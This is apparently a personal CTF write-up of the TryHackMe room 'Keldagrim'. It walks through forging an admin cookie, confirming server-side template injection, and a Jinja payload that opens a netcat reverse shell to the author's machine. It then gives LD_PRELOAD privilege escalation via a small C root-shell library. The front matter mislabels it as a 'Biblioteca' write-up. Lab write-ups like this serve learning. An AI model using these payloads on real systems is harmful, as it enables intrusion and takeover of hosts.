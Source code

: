 ```yaml
---
title: "Keldagrim WriteUp"
categories: [ctf]
date: 2022/07/22
description: TryHackMe Biblioteca WriteUp.
---
```

# TryHackMe | Keldagrim

Hello everyone,

I will explain the solution of the medium level machine as clearly as i work.

<p align="center">
  <img src="/img/keldagrim_thm/loky.png">
</p>

Let's first scan for open ports and services with nmap.

```bash
sudo nmap -sSCV 10.10.211.169 -T4 -v
```

<p align="center">
  <img src="/img/keldagrim_thm/0.png">
</p>

The web application is running on port 80 and the ssh service is active. let's switch to web application


<p align="center">
  <img src="/img/keldagrim_thm/1.png">
</p>

here we see a cookie with base64. What happens if we change this?

<p align="center">
  <img src="/img/keldagrim_thm/2.png">
</p>

It looks like there is an admin user and let's try to set our cookie accordingly

```bash
└─$ echo -n Z3Vlc3Q= | base64 -d
guest 

└─$ echo -n admin | base64   
YWRtaW4
```

<p align="center">
  <img src="/img/keldagrim_thm/3.png">
</p>

I've logged into admin. Since I don't understand anything here, I tried to interrupt with the burp suite.

<p align="center">
  <img src="/img/keldagrim_thm/4.png">
</p>

When we decoded the "sales" value, it gave us a result. this is the same result we just saw on the admin page.

```bash
└─$ echo -n JDIsMTY1 | base64 -d
$2,165
```
Two things came to mind here. rce and ssti. I wanted to try the ssti because it made more sense.


<p align="center">
  <img src="/img/keldagrim_thm/5.png">
</p>

I verified it's ssti and created a payload to get the reverse shell.

```bash
{{ namespace.__init__.__globals__.os.popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.77.152 8787 >/tmp/f').read() }}
```

<p align="center">
  <img src="/img/keldagrim_thm/6.png">
</p>


<p align="center">
  <img src="/img/keldagrim_thm/7.png">
</p>


```bash
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
jed@keldagrim:~$
```

I saw that the ps command works with sudo. but also that it belongs to the LD_PRELOAD environment

and I researched for privilege escalation

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

I saved the c codes in the exploit.c file and ran the following commands in the terminal to switch to root session

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
ls -al exploit.so
sudo LD_PRELOAD=/tmp/exploit.so ps
```

```bash
whomi

cat /root/root.txt && cat /home/jed/user.txt
```

